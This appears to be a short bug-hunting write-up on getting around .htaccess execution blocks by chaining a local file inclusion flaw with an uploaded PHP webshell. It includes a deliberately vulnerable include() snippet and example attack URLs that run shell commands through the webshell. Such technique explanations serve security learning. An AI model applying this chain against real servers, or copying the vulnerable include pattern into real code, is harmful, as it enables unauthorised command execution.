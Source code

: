 # Background

While bug Hunting, you might stumble upon an unrestricted file upload vulnerability. However, even when managing to upload a php webshell, its execution might be prevented via htaccess. 

In this page, i'll discuss pairing Local file inclusion (LFI) with unrestricted file upload to execute the php webshell in the simplest form (No LFI filter bypass or unrestricted file upload filter bypass).

# How does .htaccess prevent execution?
.htaccess files let Apache apply custom rules per directory.

**Disabling the php engine in the directory:**
```
php_flag engine off
```

**Returning a "403 forbidden" to certain files:**
```
<FilesMatch "(^#.*#|\.(exe|bak|config|php|dist|fla|inc|ini|log|psd|sh|sql|sw[op])|~)$">
    Order allow,deny
    Deny from all
    Satisfy All
</FilesMatch>
```

In both of these situations, the php webshell will not run.


# Using LFI to run the webshell

If an LFI vulnerability is found, it could be used to run the php webshell. However, note that depending on the php function that caused the LFI, this attack might be limited.


**LFI allowing execution (using "include()" or "require()"):**
```
<?php
if (isset($_GET['file'])) {
    include($_GET['file']);
}
?>

```
Note that include() does not process query strings. So in case the attack looked like the following:
```
http://192.168.7.10/lfi.php?file=uploads/webshell.php?cmd=pwd
```
The include() function would be ```include("uploads/webshell.php?cmd=pwd");``` and it won't find a file with that name.

The correct way to include paramters would be to use "&":
```
http://192.168.7.10/lfi.php?file=uploads/test.php&cmd=pwd
```






**Read Only LFI (using "file_get_contents"):**
```
<?php
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    if (file_exists($file)) {
        $contents = file_get_contents($file);
        echo nl2br(htmlentities($contents));
    } else {
        echo "File does not exist.";
    }
} else {
    echo "No file specified.";
}
?>
```

file_get_contents Only reads files so it is not possible to use it in this case.